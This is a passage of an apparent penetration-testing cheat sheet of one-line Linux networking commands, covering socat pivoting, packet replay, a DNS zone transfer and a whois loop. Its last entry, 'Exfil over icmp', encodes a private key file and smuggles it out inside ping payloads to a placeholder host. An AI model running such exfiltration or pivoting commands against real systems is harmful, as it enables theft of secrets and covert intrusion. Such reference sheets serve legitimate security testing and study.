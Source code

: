 https://www.cyberciti.biz/tips/perform-simple-manipulation-of-ip-addresse.html
__________
### 105. Route IPV6 through ipv4 for things that don't support it
```
socat TCP-LISTEN:8080,reuseaddr,fork TCP6:[RHOST]:[RPORT] ./[tool] 127.00.0.1:8080
```
**- linux,networking,pivoting**
#### References:

https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/
__________
### 106. replay packets to network
```
file2cable -i eth0 -f [file]
```
**- linux,networking,packet capture**
#### References:

http://manpages.ubuntu.com/manpages/xenial/man1/file2cable.1.html
__________
### 107. do a zone transfer request (just use host . . .)
```
dnsrecon -t axfr -d [domain]
```
**- linux,networking,enumeration,dns**
#### References:

https://github.com/darkoperator/dnsrecon
__________
### 108. look for a free short domain, good luck
```
for a in {a..z}; do for b in {a..z}; do for c in {a..z}; do for d in {a..z}; do whois $a$b.$c$d; done; done;done;done
```
**- linux,networking,loop,dns**
#### References:

http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO.html
__________
### 109. Exfil over icmp
```
ping -p 11010101010101010101010101010199 -c 1 -M do 127.0.0.1 -s 32; for line in `base64 sslfile.key | xxd -p -c 14`; do line2=`echo "11 $line 99" |tr -d ' '`; ping -p $line2 -c 1 -M do 127.0.0.1 -s 32; done; ping -p 11101010101010101010101010101099 -c 1 -M do 127.0.0.1 -s 32
```
**- linux,networking,loop,interesting**
#### References:
